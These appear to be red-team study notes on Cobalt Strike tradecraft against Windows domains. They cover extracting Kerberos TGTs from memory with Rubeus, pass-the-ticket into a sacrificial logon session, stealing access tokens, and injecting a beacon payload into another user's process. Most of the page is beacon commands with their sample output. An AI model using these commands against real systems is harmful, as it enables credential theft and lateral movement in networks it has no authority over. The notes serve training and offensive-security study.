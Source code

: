 > *Note*: `krbtgt` service means that the ticket is a TGT.

We can extrat it from memory with `dump`.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe dump /service:krbtgt /luid:0x462eb /nowrap
```

Create a sacrificial logon with `createnetonly` and obtain a `LUID` and `ProcessID`.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe

[*] Action: Create Process (/netonly)
[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4872
[+] LUID            : 0x92a8c
```

Now with `ptt` we can pass the extracted TGT.

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe ptt /luid:0x92a8c /ticket:[...base64-ticket...]

[*] Action: Import Ticket
[*] Target LUID: 0x92a8c
[+] Ticket successfully imported!
```

We can also use `make_token` and `kerberos_ticket_use` to import a TGT to the session.

Steal the access token of that process and access to the target resource.

```
beacon> steal_token 5674
```

# Process Injection

We can `inject` a beacon payload into a target process in the form of shellcode.

If we inject the beacon into a process owned by a different user, the beacon will run with the local and domain privileges of that user.

```
beacon> ps

PID   PPID  Name                   Arch  Session     User
---   ----  ----                   ----  -------     -----
448   796   explorer.exe            x64  1           CORP\user

beacon> inject 448 x64 smb-p2p-payload
[+] established link to child beacon: 10.10.10.10
```

> **Note**: If we try to inject into a process owned by other user we will need admin privs.
